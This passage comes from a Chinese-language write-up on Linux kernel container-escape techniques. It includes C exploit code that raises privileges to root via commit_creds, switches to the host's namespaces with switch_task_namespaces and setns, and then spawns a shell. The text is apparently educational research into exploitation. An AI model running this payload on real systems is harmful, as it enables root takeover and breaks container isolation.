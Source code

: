 2. pid namespace是否切换成功？

   没有切换成功。虽然通过 `ps -ef` 列出host的所有进程，但这只是因为mnt namespace切换成功后可以读取到host 的 `/proc/` 目录中的内容而已。详细分析见后续章节。

### 4.3 改cap+ns v2.0

由于高版本Linux内核镜像中不再存在操作CR4的gadget，也就无法直接通过ROP关闭SMEP，因此上述ret2usr执行逃逸代码的方案失效。

新的利用思路跟上一小节1.0版本基本相同，只是把代码逻辑分成内核和用户态两部分：

* 内核态ROP执行：commit_creds() + switch_task_namespaces()

    ```c
    void shellcode(){
    commit_creds(prepare_kernel_cred(0));
    size_t(*find_task_by_vpid_)(int) = 0xFFFFFFFF810E6500;
    size_t g = (*find_task_by_vpid_)(1);
    
    size_t init_nsproxy = 0xFFFFFFFF82E8B000;
    size_t(*switch_task_ns_)(size_t, size_t) = 0xFFFFFFFF810EECB0;
    (*switch_task_ns_)(g, init_nsproxy); 
    }
    ```

* 返回用户态后执行：setns()

    ```c
    int main(){
        
        /* ... after return from kernel... */
        
    int ret = 0;
        int fd_mnt, fd_pid, fd_net;
        
    fd_mnt = open("/proc/1/ns/mnt", O_RDONLY);
    printf("fd_mnt: %d , errno: %d \n",fd_mnt, errno);
        ret = setns(fd_mnt, 0);
    printf("mnt ret: %d , errno: %d \n", ret, errno);
    
    errno = 0;
    fd_pid = open("/proc/1/ns/pid", O_RDONLY);
    printf("fd_pid: %d , errno: %d \n",fd_pid, errno);
        ret = setns(fd_pid, 0);
    printf("pid ret: %d , errno: %d \n", ret, errno);
    
    errno = 0;
    fd_net = open("/proc/1/ns/net", O_RDONLY);
    printf("fd_net: %d , errno: %d \n",fd_net, errno);
        ret = setns(fd_net, 0);
    printf("net ret: %d , errno: %d \n", ret, errno);
    
    char *args[] = {"/bin/sh", NULL};
        execve("/bin/sh", args, NULL);    
    }
    ```

执行效果如下：
